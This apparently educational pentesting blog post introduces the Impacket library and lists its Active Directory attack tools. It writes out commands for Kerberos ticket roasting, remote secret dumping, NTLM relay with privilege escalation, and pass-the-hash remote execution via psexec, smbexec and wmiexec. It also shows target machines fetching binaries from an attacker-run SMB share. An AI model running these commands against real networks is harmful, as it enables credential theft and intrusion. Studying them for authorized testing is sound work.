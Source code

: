 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.1
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Impacket in Action


## Introduction 

In this blog post we will learn about Impacket library, and its usage during pentesting, we will also discuss some of the useful tools of this library.
This post is for those who know the basics of Active Directory and Windows Administration Services. If you're new, please do a google search if you feel uncomfortable.



**Impacket**

https://github.com/SecureAuthCorp/impacket.git

Clone the repo

```
git clone https://github.com/SecureAuthCorp/impacket.git
```

**Impacket** is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.





**What protocols are featured?**

* Ethernet, Linux "Cooked" capture.
* IP, TCP, UDP, ICMP, IGMP, ARP.
* IPv4 and IPv6 Support.
* NMB and SMB1, SMB2 and SMB3 (high-level implementations).
* MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS, and HTTP.
* Plain, NTLM, and Kerberos authentications, using password/hashes/tickets/keys.
* Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI.
* Portions of TDS (MSSQL) and LDAP protocol implementations.


```
pip install -r requirements.txt
```

```
python setup.py install
```

You can find any of the impacket tools in '/impacket/examples' file.

**Explanation**

**addcomputer.py:** Allows to add a computer to a domain using LDAP or SAMR (SMB).

```
addcomputer.py -method SAMR -computer-pass <PASSWORD> -computer-name <NAME> DOMAIN/USER:PASSWORD
```
We have added a new computer using SAMR(Security Account Manager (SAM) Remote Protocol (Client-to-Server)) to a domain.


**GetUserSPNs.py**: This example will try to find and fetch Service Principal Names that are associated with normal user accounts. The output is compatible with JtR and HashCat.


If we found any user accounts configured with the unconstrained delegation, we can obtain its Kerberos tickets and can try to crack that ticket.

```
GetUserSPNs.py DOMAIN/USER:PASSWORD -request-user <UNCONSTRAINED_USER>
```

**GetNPUsers.py:** This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). The output is compatible with JtR.

```
GetNPUsers.py DOMAIN/USER -dc-ip 10.10.10.161 (TargetIP)
```

**secretdump.py**
Performs various techniques to dump secrets from the remote machine without executing any agent there.


```
secretsdump.py  DOMAIN/USER:PASSWORD@<VictimIP>
```
```
secretsdump Empire/locus:brokeme@198.162.0.1
```


**lookupsid.py**: It used to enumerate local and domain users in target windows machine. 

```
lookupsid.py user:password@<targetip>
```

**ntlmrelayx.py:** This script performs NTLM Relay Attacks, setting an SMB and HTTP Server and relaying credentials to many different protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be triggered when a connection is relayed (e.g. create a user through LDAP) or can be executed in SOCKS mode. In this mode, for every connection relayed, it will be available to be used later on multiple times through a SOCKS proxy.


```
ntlmrelayx.py --escalate-user username -t ldap://DOMAIN_CONTROLLER
```


```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

**psexec.py**: it is used to perform remote code execution, it executes processes on remote systems and redirects console applications' output to the local system so that these applications appear to be running locally.


```
psexec.py -hashes <LM hash>  domain/user@<TargetIP> 
```
```
psexec.py -hashes :73ry4923rho24jr2jeor2po3j Empire/administrator@192.168.10.16 powershell.exe
```

**smbexec.py**: It focuses on using native windows functions/features for post-exploitation and expanding access on a network after you gain some credentials, whether that be a hash or password for a local or domain account. It's similar to psexec.

```
smbexec.py Empire/administrator@192.168.10.16
```


You can also use hash.


**wmiexec.py:** A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

```
wmiexec.py 'Empire/administrator@192.168.10.16'
```

**smbserver.py:** A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.
```
smbserver.py temp /DIRECTORY/win_binaries
```
You have run smb server in your machine now you can share resources and also Windows utilities with target system.
To check the server 

```
smbclient //yourIP/temp
```

On target system 
```
\\10.10.14.6\temp\whoami.exe
```

## Conclusion

_**We have discussed some tools with their basic usage that will help us in Exploitation and Post Exploitation phases, I recommend you to read resources I have given below**_




Somre refference link :

``
https://www.secureauth.com/labs/open-source-tools/impacket
``

``
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
``

``
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
``
